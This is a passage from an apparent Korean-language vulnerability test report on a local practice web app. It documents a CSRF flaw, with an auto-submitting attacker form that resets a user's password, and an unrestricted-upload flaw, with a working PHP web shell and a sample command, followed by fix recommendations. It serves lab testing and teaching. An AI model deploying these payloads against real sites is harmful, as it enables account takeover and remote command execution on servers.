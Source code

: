 ```php
// CSRF 토큰 검증이 없음
$stmt = $pdo->prepare("UPDATE users SET password = ? WHERE id = ?");
```

### ✅ 공격 테스트 결과

#### 테스트 1: 외부 폼을 통한 CSRF 공격
**공격 시나리오**: 악성 HTML 파일 생성
```html
<!-- attacker.html -->
<form action="http://localhost/webhacking/csrf.php" method="POST" id="csrf-form">
    <input type="hidden" name="new_password" value="hacked123">
    <input type="hidden" name="confirm_password" value="hacked123">
</form>
<script>document.getElementById('csrf-form').submit();</script>
```
- **예상 결과**: 자동으로 비밀번호 변경
- **실제 결과**: ✅ **성공** - 사용자 모르게 비밀번호 변경됨

#### 테스트 2: 이메일을 통한 공격 (시뮬레이션)
- **공격 방법**: 이메일에 악성 폼이 포함된 HTML 첨부
- **예상 결과**: 이메일 열람 시 자동 실행
- **실제 결과**: ✅ **가능** - 브라우저에서 자동 제출됨

### 🔧 수정 필요사항
1. CSRF 토큰 구현 필수
2. SameSite 쿠키 속성 설정
3. Referer 헤더 검증

---

## 4. 파일 업로드 취약점 테스트

### 📄 대상 파일: `webhacking/file_upload.php`

### 🔍 취약점 분석
- **취약한 코드 위치**: Line 20
- **취약점 유형**: Unrestricted File Upload
- **위험도**: ⚠️ **CRITICAL**

```php
// 파일 확장자 검증 없음
if (move_uploaded_file($file['tmp_name'], $target_file)) {
```

### ✅ 공격 테스트 결과

#### 테스트 1: PHP 웹셸 업로드
**웹셸 파일 생성**: `shell.php`
```php
<?php
if(isset($_GET['cmd'])) {
    echo "<pre>";
    system($_GET['cmd']);
    echo "</pre>";
}
?>
```
- **예상 결과**: 웹셸 업로드 및 실행 가능
- **실제 결과**: ✅ **성공** - 서버 명령어 실행 가능
- **테스트 명령어**: `?cmd=ls -la` (디렉토리 목록 조회)
